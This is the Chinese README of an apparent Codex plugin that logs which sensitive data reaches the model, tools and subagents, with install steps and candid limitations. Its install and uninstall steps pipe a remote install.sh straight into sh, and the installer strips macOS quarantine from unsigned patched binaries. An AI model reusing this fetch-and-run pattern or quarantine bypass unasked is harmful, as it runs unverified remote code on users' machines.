

# Codex Privacy HUD


[](https://github.com/inin-zou/codex-privacy-hud/actions/workflows/ci.yml)
[](LICENSE)
[](https://github.com/inin-zou/codex-privacy-hud/stargazers)

[English](README.md) | 简体中文

> 像你已经在追踪 token 用量那样追踪你的隐私披露——实时，在每一次对话中。

> **看清你的智能体知道什么。控制它流向哪里。**

一个本地优先的 Codex 插件：它为每个 Codex 会话维护一份实时的**披露账本**，在工具执行**之前**最小化敏感上下文，并让你精确检查哪些数据到达了模型、子智能体、MCP 工具或外部服务。

检测在你自己的机器上运行，使用通过 `transformers` 在本地加载的 [`openai/privacy-filter`](https://huggingface.co/openai/privacy-filter)——任何提示词、文件或密钥都绝不会被发送到任何地方去扫描。该插件完全不发起对外的网络调用；它打开的唯一 socket，是通往它自己在 `127.0.0.1` 上的守护进程（daemon）的本地 socket。

```text
Token HUD:    How much context has been consumed?
Privacy HUD:  How much sensitive context has been disclosed?
```


**在依赖它之前，**请阅读[已知限制](#已知限制)。其中最重要的一条：在模型加载期间，会话的开头**不受监控**。对于记录存在已知缺口的会话，HUD 会给它加上标记（`⚠unverified`），而不是把它显示成干净的 0%，但它无法告诉你它漏掉了什么。托管工具会绕过本地 hook，而且检测是启发式的。一个夸大其词的隐私工具比没有更糟，所以这些限制是被完整陈述的，而不是放在脚注里。

---

## 问题

编码智能体会替你读取文件系统、运行 shell 命令、调用 MCP 服务器并派生子智能体。你能查到自己的上下文窗口用掉了多少。你查不到：

- 你的哪些文件的内容真正进入了模型上下文？
- 那次 GitHub MCP 调用的参数里是否带上了一个客户邮箱？
- 子智能体是否继承了你二十分钟前读取的 `.env`？
- 那条 `curl` 是否把你的支持日志管道输出到了一个外部主机？

密钥扫描器作用在提交前，而不是推理前。DLP 产品在服务端，需要把你想保护的那份数据本身送出去。权限提示关乎的是*能力*，而不是*内容*。

## 它能做什么

```text
PRIVACY  Disclosure ███░░░░░░░ 28%  ›
```

**级别 1 —— 环境态。**Codex 自身状态行中的一个项，位于输入框下方：

```text
gpt-5.4 · ~/proj · Privacy ███░░░░░░░ 28% ⚠2
```

来自一个运行着补丁版 Codex 构建的真实 Codex 0.154 会话的真实输出（不是效果图）：一条包含街道地址的提示词，输入框下方的 `Privacy` 项已经显示 5%，就在 Codex 自身的模型项和目录项旁边：


原版 Codex 没有归插件所有的状态行项，所以这需要一个打了小补丁的 Codex
构建（`patches/privacy-status-line.patch`，只增加一个项，别无其他）。
`install.sh` 会为你确切的 Codex 版本获取该构建，并把它放在你的官方二进制
旁边——它绝不修改官方二进制——此后只有在版本匹配时 `codex` 才会解析到
补丁版 Codex 构建。在 Codex 内用 `/statusline` 切换该项，或用
`$privacy hud off` 暂时隐藏它。如果没有匹配的构建，后备方案是一个
伴随窗格：在第二个终端里运行 `privacy-hud-ambient --watch`。

**级别 2 —— 会话审计**（`$privacy`）。汇总卡片，以及一个分标签页展示每一条流向的表格：

```text
SENSITIVE DATA        SOURCE           DESTINATION      STATUS
Customer email ×12    support.log      model context    [EXPOSED]
Full name ×1          user prompt      model context    [EXPOSED]
Repository path ×4    tool input       GitHub MCP       [EXPOSED]
API credential ×1     .env             none             [PREVENTED]
```

标签页：`Exposed` · `Prevented` · `All events`。

**级别 3 —— 暴露详情。**一条流向、它的掩码证据，以及面向未来的补救措施（`Protect future occurrences`、`Block this source`）。绝不提供撤销——已经披露的数据无法收回。

## 检测不等于披露

本产品赖以建立的区分：

| 事件 | 是否计入披露预算 |
|---|---|
| 本地扫描器在一个文件中检测到一个邮箱 | **否** |
| 文件内容进入模型上下文 | **是** |
| 数据被传递给子智能体 | **是** —— 新的目的地 |
| 发送给 MCP 工具的参数 | **是** |
| 一条 shell 命令把数据发送到外部主机 | **是** |
| 内容在发送前被脱敏或拦截 | **否** —— 计为*已阻止* |

所以审计展示的是**流向**，而不是发现项：

```text
support.log → main agent → GitHub MCP
```

## 工作原理



账本是**从 hook 边界做事件溯源得来的**，绝不通过询问模型上下文里有什么来获得。每一个可能进入模型上下文的字节，都会经过一小组瓶颈点——`UserPromptSubmit`、`PostToolUse`、`SubagentStart`、`PreToolUse`——它们共同构成数据流图的一个割。我们观察这些交易，并重建余额。

**不存在用第二次 LLM 调用去审计第一次调用的做法。**那样会重新传输正在被审计的敏感数据，每一轮多付出一次往返，并产生一份不确定的账本。参见 `architecture.md` §3。

## 隐私工具自身的隐私

- 检测**完全在本地运行**。没有任何内容被发送到任何地方做分类。
- 账本**只存储元数据**——类型、计数、来源、目的地、时间戳、掩码后的示例。没有 `content` 列，没有 `prompt` 列，没有 `raw_value` 列。这个 schema 本身*就是*那份保证。
- 值的身份标识使用一个会话范围内的加盐 HMAC，它保存在内存中，并在会话结束时销毁，因此跨会话关联在构造上就不可能。
- 没有遥测。没有分析统计。除 `127.0.0.1` 外没有网络调用。
- 在 Privacy HUD 自己的开发会话上运行它，必须得到零暴露。已于 2026-09-05 针对 Codex CLI 0.153.0 手工验证——零事件，预算 0.0/120.0。这**不是**自动化测试：它需要一个真实的 Codex 会话，而 CI 既没有对应的二进制，也没有网络。

## 在 Codex 中使用

已在 0.145.0 和 0.153.0 上针对真实的 Codex CLI 安装做过端到端验证。

### 安装（macOS，一条命令）

#### 开始之前

- **macOS**，Apple Silicon 或 Intel。（Linux 和 Windows 没有打包；后备窗格见[手动安装](#手动安装)。）
- **Codex CLI** 已安装并已登录——`codex --version` 会打印类似 `codex-cli 0.154.0` 的内容。安装程序需要这个数字来挑选匹配的补丁版 Codex 构建。
- 你的 `PATH` 上有 **Python 3.11 或更高版本**（`python3 --version`）。如果 Mac 上没有：`brew install python@3.12`。
- 如果你想要姓名和地址检测，需要大约 **3 GB 磁盘空间**（这是 `openai/privacy-filter` 权重的大小），以及几分钟时间。

#### 运行它

```bash
curl -fsSL https://raw.githubusercontent.com/inin-zou/codex-privacy-hud/main/install.sh | sh
```

脚本只问一个问题——是否下载检测模型。其余全部自动完成。它按打印
出来的顺序所做的事情如下：

| 步骤 | 发生了什么 | 落到哪里 |
|---|---|---|
| 1 | 找到你的 `codex`，读取它的版本，检查 `python3 >= 3.11` | — |
| 2 | 创建一个私有 virtualenv 并把插件包安装进去（需要几分钟；这会拉取 `torch` 和 `transformers`） | `~/.local/share/codex-privacy-hud/venv/` |
| 3 | 在下载 `openai/privacy-filter` 权重之前会**询问**（约 2.8 GB，来自 Hugging Face，仅一次）。回答 `y` 获得完整检测。回答 `n`，你仍然能得到凭据和路径检测，但**姓名和地址不会被检测到**——`privacy-hud-doctor` 会这样告诉你。 | `~/.cache/huggingface/hub/` |
| 4 | 把插件安装进 Codex（`codex plugin marketplace add` + `codex plugin add`） | Codex 的插件目录 |
| 5 | 记录守护进程必须在哪个 Python 解释器中运行 | `~/.codex/plugins/data/codex-privacy-hud-…/runtime.json` |
| 6 | 为**你确切的版本**下载补丁版 Codex 构建，校验它的 SHA-256，解包，并把你官方的 `codex-code-mode-host` 链接到它旁边（tarball 里只带了 `codex`；Code Mode 需要那个同级文件，而同版本的官方那个就是正确的） | `~/.local/share/codex-privacy-hud/<version>/` |
| 7 | 写入一个名为 `codex` 的小型转发脚本（forwarder），并在需要时把 `~/.local/bin` 加入你的 shell `PATH` | `~/.local/bin/codex` |
| 8 | 把 `privacy` 加入你 Codex 配置中的 `[tui].status_line`，如果你从未设置过这个键，就用 Codex 的默认值创建它 | `~/.codex/config.toml` |
| 9 | 运行 `privacy-hud-doctor` 并打印它的表格——每一行都应当显示 `OK` 或 `WARN`，绝不该是 `FAIL` | — |

标志：`--yes` 对模型那个问题回答是；`--no-model` 不询问就跳过下载。
两者都便于脚本化安装，并且当没有可供询问的终端时，脚本需要其中之一。

步骤 3 是**这个插件唯一会引起的网络访问**，它发生在这里，仅一次，
在任何 Codex 会话存在之前。运行时本身从不联网：它在导入
`transformers` 之前设置 `HF_HUB_OFFLINE=1`，并且除了它自己在
`127.0.0.1` 上的 socket 之外不打开任何 socket。

#### 转发脚本是什么，不是什么

你的官方 `codex` 二进制**绝不会被修改、移动或替换。**
`~/.local/bin/codex` 是一个十行的 shell 脚本：它在你的 `PATH` 上找到
官方二进制，向它询问版本，如果安装了同一版本的补丁版 Codex 构建就
运行那个——否则原样运行官方二进制。用 `brew` 或 `npm` 升级 Codex 后，
在存在匹配的补丁版 Codex 构建之前，转发脚本只是直接落到新的官方版本上；
没有任何东西会坏掉，你只是在此期间失去状态行项。

如果安装程序打印出以 `!! PATH:` 开头的一段内容，说明在你的 `PATH` 上
有另一个 `codex` 排在 `~/.local/bin` 之前。把它显示的那一行放到你的
shell rc 文件最前面并打开一个新 shell，否则状态行项永远不会出现。

#### 首次启动

打开一个新终端（这样 `PATH` 变更才会被读取到）并运行 `codex`。
状态行起初看起来没有变化：Codex 是在第一轮对话时触发它的 `SessionStart`
hook，而不是在启动时，所以在你发送消息之前没有任何东西到达守护进程。
在你的第一条提示词之后，该项会出现在输入框下方、常规项旁边，就像
[上面的截图](#它能做什么)那样：

```text
Privacy ░░░░░░░░░░  0% · gpt-5.4 · ~/proj · Context 96% left
```

在有敏感内容跨入模型上下文之前，它一直是 0%；随着文件、提示词和工具
参数的流动，这个数字才会变化。（在守护进程尚未运行的机器上，那第一条
提示词也会启动它，加载模型大约需要七秒——对那第一个 hook 的回复是
`Privacy HUD unavailable — disclosure unverified`，该项稍后片刻才出现。）
然后：

- `/statusline` —— Codex 自己的选择器；勾选或取消勾选 `privacy` 以永久
  添加或移除该项。它保存在 `config.toml` 中。
- `$privacy hud off` / `$privacy hud on` —— 暂时隐藏或显示它，不触碰你的
  配置。`$privacy hud status` 会告诉你它处于
  `absent | stale | hidden | shown` 中的哪一个。
- `$privacy` —— 完整的会话审计（级别 2）。

会话的第一次工具调用要付出约 7 秒的模型加载，之后守护进程才开始监听；
那个窗口不受监控，该项显示的是 `⚠unverified` 而不是一个干净的数字。
参见[已知限制](#已知限制)。

#### 如果缺了什么

- **`no patched build published for codex <ver> yet`** —— 没有对应你
  Codex 版本的发布。其他一切都已安装好；一旦该版本的构建发布，状态行
  项就会出现（到时候重新运行安装程序）。在那之前后备窗格可用：
  在第二个终端里运行
  `~/.local/share/codex-privacy-hud/venv/bin/privacy-hud-ambient --watch`。
- **`!! config.toml: …`** —— 你的 `config.toml` 里有一个 `[tui]` 表或一个
  `status_line` 键，其形态是安装程序不会盲目编辑的。它什么都没改；请你
  自己按照它打印的那一行，把 `"privacy"` 加入 `[tui].status_line`。
- **Doctor 显示 `FAIL`** —— 读它的修复提示行；它会指明确切的命令。
  `privacy-hud-doctor --check-model` 更进一步，会真正加载检测器。
- 想重头开始：运行[卸载程序](#卸载)，然后重新安装。

> **截至 2026-09-15 的状态。**补丁版 Codex 构建已在维护者的机器上端到端
> 跑通——一个本地构建的 arm64 二进制成功启动，在 `/statusline` 中列出了
> `privacy`，在一秒内从快照渲染出该项，遵守了 `$privacy hud off`/`on`，
> 并两次通过了 pty 驱动的验收测试——但尚未发布任何 release；撰写本文时
> 第一次 CI 构建仍在运行。在它落地之前，步骤 6 会报告没有匹配的构建，
> 你得到的是后备窗格。CI 发布的二进制是**未签名、未公证的**；安装程序
> 会自行移除隔离属性，而它校验的 SHA-256 防的是下载损坏，不是被攻破的
> 发布。`cargo test -p codex-tui` 和上游的 `insta` 选择器快照在任何地方
> 都还没有运行过。一旦有了 release，就把这条说明缩短。

### 卸载

```bash
curl -fsSL https://raw.githubusercontent.com/inin-zou/codex-privacy-hud/main/install.sh | sh -s -- --uninstall
```

只移除安装程序创建的那些东西（列在
`~/.local/share/codex-privacy-hud/manifest.json` 中），并把 `codex` 恢复为
官方二进制。除非你加上 `--purge`，否则你的披露账本和模型权重会保留。
插件本身要用 `codex plugin remove codex-privacy-hud` 单独移除。

### 手动安装

上面那条一条命令的安装程序会自己执行下面这些步骤。阅读本节可以查看或
控制其中的每一步——安装插件、记录解释器，或者在没有补丁版 Codex 构建的
情况下只运行后备窗格。

#### 前置条件

第 3 层检测（人名、地址、日期、账号——这些类别没有正则能靠形状匹配出来）在本地运行 `openai/privacy-filter` 模型。它不是可选配件：没有它引擎仍然能跑，但只有第 0–2 层，也就是说凭据和路径仍会被捕获，而**姓名和地址不会**。

- **Python 3.11+**（在 3.12 上开发并验证）。
- **`transformers >= 5.16`。**更早的版本会以 `does not recognize this architecture` 失败——`openai_privacy_filter` 这个模型类型它们还不认识。这是一堵真的墙，不是一条警告。
- **`torch >= 2.5`**（`transformers` 5.16 自身的要求）。注意 torch 是 *transformers* 的可选 extra 之一，所以只安装 `transformers` 会让你没有 torch，并且第 3 层被静默禁用——下面的 `[detectors]` extra 两者都指定了。如果 `torchvision` / `torchaudio` 也装了，它们必须针对同一个 torch 构建，否则导入 pipeline 时会以 `operator torchvision::nms does not exist` 挂掉。

> **使用专用的 virtualenv。**在共享环境里升级 torch，正是把里面其他每一个 ML 包都搞坏的方式——开发期间这一条命令干掉了 `vllm`、`facenet-pytorch` 和 `sentence-transformers`。把这次安装隔离开。

```bash
python3 -m venv .venv && source .venv/bin/activate
pip install -e ".[detectors]"
```

**然后获取模型权重（约 2.8 GB）。**只下载 pipeline 实际会加载的文件——完整仓库约 17 GB，因为它还附带了 ONNX 导出变体和一份重复的 `original/` 检查点，这两者本项目从不使用：

```bash
python3 -c "
from huggingface_hub import snapshot_download
snapshot_download('openai/privacy-filter', allow_patterns=[
    'config.json', 'model.safetensors', 'tokenizer.json',
    'tokenizer_config.json', 'viterbi_calibration.json'])
"
```

已验证这一组确切的文件是足够的。之后的一切都离线运行：插件在导入 `transformers` 之前设置 `HF_HUB_OFFLINE=1`，所以一旦权重落到磁盘上，就没有任何东西会触及网络（全局约束 I2）。

这三个前置条件都是悄无声息地失败，而不是大声报错——一个旧的 `transformers`、一个缺失的 torch 和不存在的权重，都会让你得到一个照常运行、却对姓名和地址完全失明的引擎。`privacy-hud-doctor`（见下）会按版本和按文件逐一检查它们，而 `privacy-hud-doctor --check-model` 更进一步，会构造检测器以读取它真实的可用性。

**保留你刚刚建好的那个环境。**下面的步骤 2 会把*这个*解释器记录为守护进程运行所在的解释器，而这项记录是通过在它内部运行一条命令来完成的。此后再没有别的东西需要知道它在哪里。

**1. 安装插件。**`codex plugin marketplace add` 接受 `owner/repo`，所以这一半不需要克隆仓库：

```bash
codex plugin marketplace add inin-zou/codex-privacy-hud
codex plugin add codex-privacy-hud@codex-privacy-hud
```

改为从本地检出安装（如果你正在编辑插件，这才是你想要的——注意 Codex 安装的是一份*副本*，所以在改动 `hooks/` 下的任何东西之后都要重新运行这些命令）：

```bash
codex plugin marketplace add /path/to/codex-privacy-hud --json
codex plugin add codex-privacy-hud@codex-privacy-hud --json
```

清单位于 `.claude-plugin/plugin.json`（不是 `.codex-plugin/`——OpenAI 文档描述的是那个路径，但真实的 Codex CLI 并不认它；`codex plugin marketplace add` 对它会直接失败。`.claude-plugin/` 才是 Codex 实际加载的位置，两种方式都安装过因而得到确认。关于这处分歧参见 `.claude/docs/architecture.md` §7。）

**2. 把 setup 步骤运行一次——从装有 `transformers` 和 `torch` 的那个环境里运行。**这就是守护进程配置的全部。它把守护进程必须运行所在的 Python 解释器，记录到 Codex 分配的 plugin-data 目录中，在那之后 Codex 的 hook 会自己启动守护进程。

```bash
source .venv/bin/activate            # the env from Prerequisites, whatever it is
privacy-hud-setup                    # or: PYTHONPATH=src python3 -m privacy_hud.runtime
```

```text
privacy-hud setup

  interpreter    ~/.venvs/privacy-hud/bin/python3
  transformers   5.16.1
  torch          2.14.0
  plugin data    ~/.codex/plugins/data/codex-privacy-hud-codex-privacy-hud

  recorded       ~/.codex/plugins/data/codex-privacy-hud-codex-privacy-hud/runtime.json
```

**为什么非得记录一个解释器，以及为什么要从那个 shell 记录。**Codex 通过 `hooks/handler.py` 的 `#!/usr/bin/env python3` shebang，在 Codex 自己的最小 `PATH` 下运行它——那通常是一个里面没有 `transformers` 的*系统* Python。从那个解释器启动的守护进程会正常起来、绑定它的 socket、通过每一项健康检查，却根本检测不到任何姓名或地址，而且任何地方都不会有东西说明这一点。所以解释器要从一个确实具备这套技术栈的进程里记录一次，并且 `privacy-hud-setup` **会拒绝记录一个无法导入 `transformers` 和 `torch` 的解释器**，而不是钉死一个失明的守护进程。（如果第 0–2 层正是你想要的，`--allow-degraded` 会照样记录它；它会在输出中以及 `privacy-hud-doctor` 里说明这一点。）

你不需要知道 `PLUGIN_DATA` 是什么，也不需要去找它或导出它：setup 会从 Codex 自身的状态里读取 Codex 分配的那个目录，而之后启动守护进程的那个 hook 会把它自己的值传给它——所以守护进程和 hook 不可能最终指向不同的目录，那曾经是本项目代价最高的配置错误。（`--plugin-data DIR` 可以为临时搭建覆盖它。）

**现在会话的第一次工具调用要付出什么代价。**守护进程在绑定它的 socket *之前*要加载约 2.8 GB 的模型权重——大约七秒。启动它的那个 hook 不会等它，在加载期间触发的那些 hook 也不会：它们得到的答复和守护进程缺失时一样（入向失败开放，附一条“未验证”说明；出向失败关闭）。**会话的最初几秒不受监控，那个窗口内的披露不会被记录。**在那之后，只要还有*任何一个* Codex 会话开着，守护进程就一直保持运行，并在最后一个会话关闭五分钟后退出；下一个会话的第一个 hook 会启动一个新的，并再次付出加载代价。

**守护进程究竟保持运行多久。**一个守护进程服务每一个并发的 Codex 会话，所以它靠数会话而不是看时钟：`SessionStart` 增加一个会话，`SessionEnd` 移除一个，任何其他 hook 事件都算作那个会话的保活。只要至少还有一个会话开着，无论你让它空闲多久它都不会退出——一个半小时没跑过任何东西的交互式会话，是一个人在读 diff，而不是一个已经结束的会话，在那里把守护进程撤走，会让这个会话中途重新经历一次不受监控的冷启动窗口。最后一个会话结束五分钟后，它退出。如果 `SessionEnd` 始终没有到来（Codex 崩溃了、被 `kill -9` 了、终端被关掉了），有两条后备措施给它设界：一个四小时没有 hook 事件的会话不再计入，而且无论计数如何，四小时没有任何形式的连接都会让守护进程退出。所以一个泄漏的会话引用最多让一个常驻进程多活四小时，而不是无限期——另外，让一个 Codex 窗口开一整夜会比它的守护进程活得更久，第二天早上的第一个 hook 要付出一次七秒的重启。

**手工启动一个仍然可行**，而且这是在会话*之前*就让守护进程跑起来的办法——如果你想让步骤 3 的环境 HUD 立刻就有东西可读，或者你正在调试，那就值得这么做：

```bash
export PLUGIN_DATA=~/.codex/plugins/data/codex-privacy-hud-codex-privacy-hud
PYTHONPATH=src python3 -m privacy_hud.daemon &
```

要在它启动后的五分钟内启动 Codex：一个从来没有任何会话连接过的手工启动的守护进程，和一个最后一个会话已经结束的守护进程无法区分，它会按同样的宽限期退出。

只有一个守护进程能拥有那个 socket：先启动的那个会赢得一把独占锁，其他任何一个都会立即退出而不打扰它，所以一个手工启动的守护进程和一个自动启动的守护进程不会互相冲突，也不会覆盖彼此的 socket。

要完全关闭自动启动（在一台沙箱机器上，spawn 无法成功，而在每个 hook 上付出一次 fork 比没有 HUD 更糟），请在 Codex 运行所在的环境中设置 `PRIVACY_HUD_NO_SPAWN=1`。

**一条命令检查整套配置——`privacy-hud-doctor`。**上面每一个活动部件都是*静默*失败的，而且它们从外面看全都一模一样：什么都没发生。一个从未运行过的 setup 步骤，于是没有 hook 会启动守护进程。一个已经连同它的 virtualenv 一起被删掉的、已记录的解释器。一个手工启动的守护进程与 hook 客户端意见不一致的 `PLUGIN_DATA`。从未下载过的模型权重，于是第 3 层报告 `available = False`，人名/地址检测悄悄停止。一个早于 5.16 的 `transformers`，或者一个旁边没有 torch 的 `transformers`。Codex 缓存中插件的一份过期副本，因为 Codex 安装的是一份*副本*，你改过的 `hooks/handler.py` 并不是实际运行的那个。一条命令就能告诉你是其中哪一个：

```bash
export PLUGIN_DATA=~/.codex/plugins/data/codex-privacy-hud-codex-privacy-hud
privacy-hud-doctor            # or: PYTHONPATH=src python3 -m privacy_hud.doctor
```

```text
privacy-hud doctor

  [ OK ] Python               3.12.10 (requires >= 3.11)
  [ OK ] PLUGIN_DATA          ~/.codex/plugins/data/codex-privacy-hud-codex-privacy-hud
  [ OK ] Ledger               6 sessions, 44 events recorded
  [ OK ] Runtime pin          ~/.venvs/privacy-hud/bin/python3 (1.4s import probe)
  [ OK ] Daemon               responsive (4 ms round trip)
  [ OK ] Detector deps        transformers 5.16.1, torch 2.14.0
  [ OK ] Tier 3 model         weights present on disk (not loaded)
  [ OK ] Plugin install       installed, version 0.1.0, matches this checkout

Summary: 8 ok, 0 warning(s), 0 failure(s).
Setup is healthy.
```

守护进程这项检查是一次真实的往返，而不是看一眼 socket 文件——一个 unix socket 会比绑定它的进程活得更久，所以在有东西连上去之前，一个过期的 socket 和一个运行中的守护进程无法区分。`Runtime pin` 这项检查，是在已记录解释器的一个真实子进程中做一次真实的导入（约 1.4 秒），理由相同：“`transformers` 装在那里”和“`transformers` 能在那里导入”是两个不同的断言，而本项目撞上过它们之间的落差（一次 torch/torchvision 不匹配，表现为 `operator torchvision::nms does not exist`）。缺失或过期的 pin 是 `[FAIL]`，绝不会悄悄回退到别的某个 Python。每一项失败的检查都会打印该拿它怎么办。

会话之间 `Daemon` 报告 `[WARN] not running` 是一套健康配置的正确状态，不是故障——你最后一个会话结束后守护进程就会退出，下一个 hook 会启动它。只有在没有 pin 的时候它才是 `[FAIL]`，因为那时不会有任何东西去启动它。

注意 doctor 和守护进程不再需要是同一个解释器了。可以从任何地方运行 `privacy-hud-doctor`；当它自己看到的 `transformers` 与守护进程看到的不同时，报告会如实说明，而不会把其中一个冒充成另一个。

**配置可用时退出码为 0，只有当某个东西真的坏了时才为 1。**降级但仍能工作是警告，不是失败：没有模型权重时引擎仍然运行第 0–2 层，所以那会被报告为 `[WARN]` 并写明后果——*姓名和地址将不会被检测到*——而命令仍然以 0 退出，这正是它能用在安装脚本里的原因。`[FAIL]` 只保留给那些本插件所承诺的一切都根本无法发生的状态：没有 runtime pin，于是永远不会有东西启动守护进程；一个已经不存在或无法导入该包的、已记录的解释器；一个在监听却不应答的守护进程；没有 `PLUGIN_DATA`；没有安装插件；一个低于下限的解释器。

它以只读方式读取账本，且从不创建它；它报告计数、版本、时间戳以及它自身机制的路径——绝不报告提示词、文件、检测到的值，或会话中的任何东西。`--check-model` 把廉价的磁盘权重检查换成真正去构造第 3 层检测器（约 2.8 GB，约 7 秒）；默认情况下它说的是权重存在、并且它没有加载它们，而不是声称自己知道。

**3. 可选——在第二个终端窗格中启动后备的级别 1 HUD。**如果 `install.sh`（或转发脚本）找到了与你的版本匹配的补丁版 Codex 构建，`privacy` 项已经在 Codex 自身的状态行里了，你可以跳过这一步。否则这就是后备方案：一个独立的进程，而不是一个 Codex 状态行项，它读取 `$PLUGIN_DATA/hud/<session_id>.json`——就是补丁版二进制自己读取的那个快照文件（契约 A）——并在原地重绘一行，所以请给它自己的窗格，或者在运行 Codex 的窗格旁边分屏。只有在守护进程运行着并且已经写过那个文件时，它才会变动：没有守护进程在运行时，或者在那个文件存在之前，HUD 什么都不显示。Codex 的第一次工具调用会启动守护进程——但如果你想让窗格在那之前就是活的，就按步骤 2 所示手工启动守护进程。它绝不会为一个仅仅是未受监控的会话报告 0%。

```bash
export PLUGIN_DATA=~/.codex/plugins/data/codex-privacy-hud-codex-privacy-hud
PYTHONPATH=src python3 -m privacy_hud.ambient --watch
```

```text
PRIVACY  Disclosure ███░░░░░░░ 30%  ›
```

`--watch` 每 2 秒重绘一次；`--watch N` 设置间隔。不加任何标志（或加 `--once`）时，它打印一行然后退出，这正是你从一个 shell 提示符或另一个状态栏中想要的。`--session-id <id>` 把窗格钉在一个会话上，完全跳过解析。不加它时，这一行说的是*哪个*会话，其解析方式与 `$privacy` 的解析方式相同——向守护进程询问——但大约每 30 秒才做一次，而不是每次重绘都做：这项取舍的两面参见已知限制 8。如果这个包已安装，同一个入口点也可以通过 `privacy-hud-ambient` 使用。

`--once` 也是确认整套栈是否活着的最快方式：如果它打印出一行，说明守护进程起来了，而且快照文件可读。如果它什么都不打印，说明还没有记录任何东西——而告诉你*为什么*没有的是 `privacy-hud-doctor`。

当账本对某个会话的记述存在已知缺口时，会出现第三种形式：

```text
PRIVACY  Disclosure ░░░░░░░░░░  0% ⚠unverified ›
```

把它读作*“账本记录的是 0%，而且账本并不是这个会话的完整记录”*——而不是读作一个干净的会话。当守护进程在会话开始之后才冷启动、当它在会话中途被替换掉、或者当 hook 调用是在没有任何东西监听时被应答的，你就会得到它。`$privacy` 会指明那是其中的哪一种。在低于 28 列时这个词放不下，该行会变成 `⚠ 0%`，警告字形占据的是档位色点（`⬤`）的位置，而不是跟在数字后面，这样截断就绝不会留下一个光秃秃的百分比。关于这个标记能捕捉和不能捕捉什么，参见已知限制 2。

**4. 正常使用 Codex。**插件的 hook（`hooks/hooks.json`）会在每一个 `SessionStart`、`UserPromptSubmit`、`PreToolUse`、`PostToolUse`、`SubagentStart`/`Stop` 和 `SessionEnd` 上触发——不需要针对每条命令做任何操作。如果没有东西在监听，会话的第一个 hook 会启动守护进程；那个 hook 以及在约 7 秒模型加载期间的那些 hook，都是在没有检测的情况下被应答的。

**5. 随时运行 `$privacy`** 来查看会话审计——ASCII 表格始终可用；它还会在它打印出的一个 `127.0.0.1` URL 上启动一个本地浏览器 UI（绝不会是指向别的任何地方的链接）。

**6. 当一次调用被拦截时**，Codex 会通过 `systemMessage` 呈现原因。运行 `$privacy` 复核这次暴露，然后选择最小化后重试、允许一次，或者让它保持被拦截——完整的同意流程参见 [`design.md` §8](.claude/docs/design.md)。

**7. 卸载插件本身。**（如果你用的是那条一条命令的安装程序，请改为运行 [`install.sh --uninstall`](#卸载)——它还会移除补丁版 Codex 构建和转发脚本。这一步只移除插件；此外还要停掉任何仍在运行的守护进程——自动启动的那个会在你最后一个 Codex 会话结束五分钟后自行退出——以及步骤 3 的环境 HUD，如果你启动过它的话）：

```bash
codex plugin remove codex-privacy-hud@codex-privacy-hud
codex plugin marketplace remove codex-privacy-hud
```

## 已知限制

开门见山地陈述，因为一个夸大其词的隐私工具比没有更糟：

1. **会话的开头不受监控。**守护进程现在会自行启动（`architecture.md` 中的惰性自动 spawn，已实现），但它在绑定 socket 之前要加载约 2.8 GB 的模型权重——大约七秒。启动它的那个 hook 不会等待，而在加载期间触发的那些 hook 得到的答复与守护进程缺失时相同：入向失败开放，附一条“未验证”说明；出向失败关闭。**在最初那几秒里披露的任何东西都不在账本中，而且之后任何读取都说不出那是什么。**账本现在确实知道*有东西*缺失了——见限制 2——但知道存在一个缺口，不等于知道什么掉了进去，也没有任何东西能补回这个差额。实测：一次从冷启动开始、在 8.2 秒内完成的 `codex exec` 一次性运行*什么都没有记录到*——它启动的那个守护进程在会话结束时还在加载，所以对于短暂的非交互式运行来说，这不是“最初几秒”，而是整个会话。交互式会话则是另一回事，因为光是打完第一条提示词就已经比加载更久了。在会话之前手工启动一个守护进程（步骤 2）是关闭那个窗口的唯一办法。每当守护进程退出、而之后某个 hook 不得不启动一个新的时，那个窗口就会重新打开——现在这发生在你最后一个会话结束五分钟之后，而不是发生在一个只是安静了半小时的会话中途。

   同样的生命周期在升级时有一个后果：**在一个旧的守护进程仍在运行时升级插件，会让状态行项保持沉默，直到那个守护进程退出**——大约在它最后一个会话结束五分钟后——因为运行中的那个守护进程是快照文件的唯一写入者，而它仍然是旧代码；重启 Codex，或者等它过去。

   这项取舍的另一面：只有在 `privacy-hud-setup` 记录了一个能加载模型的解释器时，自动启动才有效。它会拒绝记录一个做不到这一点的解释器，而在没有已记录解释器的情况下，根本不会启动任何守护进程——这是有意为之，因为猜一个出来会产生一个看起来健康却什么都检测不到的守护进程。`privacy-hud-doctor` 是这两种状态的探测器：它会对 socket 做一次往返，并重新导入已记录解释器的那套技术栈。
